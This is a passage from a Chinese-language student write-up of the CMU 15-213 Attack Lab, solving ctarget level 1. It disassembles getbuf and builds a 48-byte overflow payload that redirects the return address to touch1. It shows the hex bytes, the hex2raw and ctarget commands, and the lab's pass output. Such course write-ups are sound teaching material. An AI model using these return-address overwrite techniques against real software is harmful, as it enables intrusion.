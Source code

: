 ```nasm
; objdump -d ctarget > ctarget.s
00000000004017a8 <getbuf>:
  ; allocate on stack
  ; 40 bytes
  4017a8:    48 83 ec 28              sub    $0x28,%rsp
  4017ac:    48 89 e7                 mov    %rsp,%rdi
  4017af:    e8 8c 02 00 00           call   401a40 <Gets>
  4017b4:    b8 01 00 00 00           mov    $0x1,%eax
  4017b9:    48 83 c4 28              add    $0x28,%rsp
  4017bd:    c3                       ret    
  4017be:    90                       nop
  4017bf:    90                       nop
```

第一个`sub`指令把栈顶往下挪了40字节，也就是给缓冲区分配了40字节，然后调用了`Gets`，`Gets`从终端IO拿字符。所以，我们需要给进程从终端传递48个字符，并小心设置最后8字符。最后8字符的ASCII码应该对应函数`touch1`的地址。

`handout`为我们准备了一个把十六进制表示转换为二进制数据的工具`hex2raw`，确定好要给`ctarget`输入的信息，用`hex2raw`转换，通过`Linux`终端的IO重定向功能，就可以输入给进程。

找到`touch1`函数的地址为`0x4017c0`，由于缓冲区是从低地址向高地址填满，故把它放在字节序列的最后。注意到，现代几乎所有计算机都是小端存储，如果字节序列是从左到右按低地址到高地址排列，那么字节显示顺序就应和人习惯上的阅读顺序相反。综上，我们应该给`ctarget`喂的字节序列用十六进制表达，应该是：

```
11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 c0 17 40 00 
00 00 00 00
```

转换成原生数据，存到另一个文件。

```shell
./hex2raw < probehex-touch1.txt > proberaw-touch1
```

喂给`catarget`。

```shell
./ctarget -q -i ./proberaw-touch1
```

得到成功提示：

```
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 C0 17 40 00 00 00 00 00
```

## 给被返回的函数传个参数
